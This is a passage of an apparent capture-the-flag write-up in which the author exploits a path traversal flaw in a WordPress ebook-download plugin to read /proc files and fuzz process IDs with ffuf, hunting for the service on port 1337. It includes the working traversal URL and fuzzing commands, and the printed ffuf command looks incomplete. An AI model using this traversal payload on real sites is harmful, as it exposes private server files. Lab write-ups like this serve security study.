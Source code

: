 ![http80](/assets/images/backdoor/burp.png)

because nmap didn't give me a clue about what service is running on port 1337 , i needed to find a way to know about it , and to do that in linux using this LFI i can look at the /proc directory that expose information about processes and system parameters as files .


In each numbered folder, the cmdline file has the command line user to run the process:

```bash
cat /proc/1/cmdline   
/sbin/initsplash#                        
```
to enumerate the process running on port 1337 , i need to fuzz the number after the /proc/

so i use ffuf for that :

i create a list of numbers from 1 to 1000 :

```bash
seq 1 1000 | tee list.txt
```

i run ffuf and filter repeated size using fs flag and filter words using fw flag  :

```bash

ffuf -u  http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/self/cmdline -fs 139,142,136 -fw 1 -mc 200 -c 

963                     [Status: 200, Size: 243, Words: 12, Lines: 1, Duration: 725ms]
971                     [Status: 200, Size: 241, Words: 11, Lines: 1, Duration: 1113ms]
977                     [Status: 200, Size: 198, Words: 8, Lines: 1, Duration: 1104ms]
988                     [Status: 200, Size: 188, Words: 3, Lines: 1, Duration: 1245ms]

```
## Hunt For 1337 
checking ffuf output one by one using curl reveals the service running on port 1337 :

